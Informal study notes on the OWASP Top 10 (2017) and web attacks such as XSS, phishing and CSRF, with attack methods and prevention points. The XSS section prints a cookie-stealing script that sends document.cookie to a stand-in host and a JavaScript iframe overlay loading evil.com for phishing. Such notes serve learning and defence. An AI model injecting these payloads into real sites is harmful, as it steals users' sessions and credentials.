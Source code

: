 ## compare 2013 to 2017 changed
- microservice replace monolithic application, use restful API => no longer trusted caller
- use SPA in JS framework, highly modular code => more client side functionality
- Node.js running server side

# top 10 security risk
## 1. injection
SQL, NoSQL, OS, LDAP injection as part of command/query

## 2. broken authentication
application function related to authentication and session management implemented incorrectly
-> attackers compromise password, keys, session tokens
### prevent
1. generate random session ID, should not be URL
2. limit login 
3. avoid default credential

### attack method
1. use list of known passwords to attack
2. continued use of passwords
3. improper timeout -> not yet logout

## 3. sensitive data exposure
1. no extra protection, eg. encryption
### consideration
- HTTP, SMTP, FTP -> transfer in clear text
- old/weak cryptographic algorithm
- enforced encryption?
### prevent
classify data processed, stored
don't store sentiive data unnecessarily
encrpyt eg. TLS with PFS ciphers, user HSTS
store passwords using salted hashing functions
### attack method
1. SQL injection when retrieve credit card no. in clear text
2. site not enforcing TLS -> downgrade to HTTP, replay cookie
3. db use simple hashes/unsalted to store passwords

## 4. XML external entities
poorly configured XML processor evaluate external entity reference within XML document

## 5. broken access control
restrictions on users not properly enforced
eg. access other users' account, view sensitive files

## 6. security misconfiguration
insecure default configuration, incomplete / ad hoc config, open cloud storage

## 7. cross site scripting

## 8. insecure deserialization
## 9. using components with known vulnerabilities
## 10. insufficient logging & monitoring


# conventional attack
SQL injection, command line attack, upload vulnerablility

# XSS injection
## Cookie hijack
`document.location="http://www.test.com/cookie.asp?cookie="+document.cookie`
script to steal cookie data, store somewhere else
replay attack

## session hijack
session is based on cookie
write XSS to server (eg. leave in comment), when admin login to backend to check comment,
  will trigger XSS loophole
listen to all http package using some tool, get post data

## phishing (網絡釣魚)
1. construct fake form
2. script record down data 
3. XSS phishing expliot
```js
document.body.innerHTML = (
  '<div style="position:absolute; top:0px; left:0px; width:100%; height:100%;">'+
  '<iframe src=http://www.evil.com/>phishing.html width=100% height=100%>'+
  '</iframe></div>'
);
```
### XSS redirect phishing
### XSS html inject phishing
### Iframe phishing
### Flash phishing
upload flash file to server (eg. fake login frame), then use `<object>/<embed>` to reference flash


# CSRF (cross-site request forgery)
cheat user to access a website that already certified
since it's certified, website will think it's user's operation 

attacker can embed request url in something, if user click on it, will trigger other unwilling operation

server cannot certify certain operation really from user's will

## protection
1. check referer field
the field can be modified
2. token for identification
generate pseudo random number


























